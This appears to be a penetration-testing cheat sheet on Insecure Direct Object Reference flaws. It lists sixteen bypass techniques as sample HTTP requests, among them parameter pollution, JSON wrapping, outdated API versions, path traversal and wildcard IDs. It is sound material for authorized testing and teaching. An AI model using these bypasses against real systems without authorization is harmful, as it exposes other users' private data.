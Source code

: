 # Insecure Direct Object Reference (IDOR)

## Introduction
IDOR stands for Insecure Direct Object Reference is a security vulnerability in which a user is able to access and make changes to data of any other user present in the system.

## Where to find
- Usually it can be found in APIs.
- Check the HTTP request that contain unique ID, for example `user_id` or `id`

## How to exploit
1. Add parameters onto the endpoints for example, if there was
```
GET /api/v1/getuser
[...]
```
Try this to bypass
```
GET /api/v1/getuser?id=1234
[...]
```

2. HTTP Parameter pollution
```
POST /api/get_profile
[...]
user_id=hacker_id&user_id=victim_id
```

3. Add .json to the endpoint
```
GET /v2/GetData/1234
[...]
```
Try this to bypass
```
GET /v2/GetData/1234.json
[...]
```

4. Test on outdated API Versions
```
POST /v2/GetData
[...]
id=123
```
Try this to bypass
```
POST /v1/GetData
[...]
id=123
```

5. Wrap the ID with an array.
```
POST /api/get_profile
[...]
{"user_id":111}
```
Try this to bypass
```
POST /api/get_profile
[...]
{"id":[111]}
```

6. Wrap the ID with a JSON object
```
POST /api/get_profile
[...]
{"user_id":111}
```
Try this to bypass
```
POST /api/get_profile
[...]
{"user_id":{"user_id":111}}
```

7. JSON Parameter Pollution
```
POST /api/get_profile
[...]
{"user_id":"hacker_id","user_id":"victim_id"}
```

8. Try decode the ID, if the ID encoded using md5,base64,etc
```
GET /GetUser/dmljdGltQG1haWwuY29t
[...]
```
dmljdGltQG1haWwuY29t => victim@mail.com

9. If the website using graphql, try to find IDOR using graphql!
```
GET /graphql
[...]
```
```
GET /graphql.php?query=
[...]
```

10.  MFLAC (Missing Function Level Access Control)
```
GET /admin/profile
```
Try this to bypass
```
GET /ADMIN/profile
```

11. Try to swap uuid with number
```
GET /file?id=90ri2-xozifke-29ikedaw0d
```
Try this to bypass
```
GET /file?id=302
```

12. Change HTTP Method
```
GET /api/v1/users/profile/111
```
Try this to bypass
```
POST /api/v1/users/profile/111
```

13. Path traversal
```
GET /api/v1/users/profile/victim_id
```
Try this to bypass
```
GET /api/v1/users/profile/my_id/../victim_id
```

14. Change request content type
```
Content-type: application/xml
```
Try this to bypass
```
Content-type: application/json
```

15. Send wildcard instead of ID
```
GET /api/users/111
```
Try this to bypass
```
GET /api/users/*
```

16. Try google dorking to find new endpoint

## References 
* [@swaysThinking](https://twitter.com/swaysThinking) and other medium writeup
